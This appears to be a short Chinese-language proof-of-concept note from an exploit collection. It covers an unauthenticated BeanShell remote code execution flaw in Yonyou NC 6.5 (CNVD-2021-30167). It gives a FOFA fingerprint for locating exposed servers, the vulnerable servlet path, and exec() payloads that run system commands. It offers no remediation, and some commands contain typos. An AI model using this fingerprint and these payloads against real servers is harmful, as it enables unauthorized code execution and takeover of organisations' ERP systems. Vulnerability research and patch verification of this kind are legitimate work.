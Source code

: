 # 用友NC BeanShell远程代码执行

编号: CNVD-2021-30167

影响版本: NC6.5

fofa指纹: icon_hash="1085941792"

该漏洞是由于用友NC对外开放了BeanShell接口，攻击者可以在未授权的情况下直接访问该接口，并构造恶意数据执行任意代码并获取服务器权限。

POC：
```bash
# get
/servlet/~ic/bsh.servlet.BshServlet
```

eg:
```bash
exec("whomai")
exec("cmd /c whoami")
exec("/bin/sh whoami")
```

注：该脚本中的命令执行, 仅适用于Windoes, Linux请手动测试。

![image-20210604183648070](https://oss.zjun.info/zjun.info/20210604183654.png)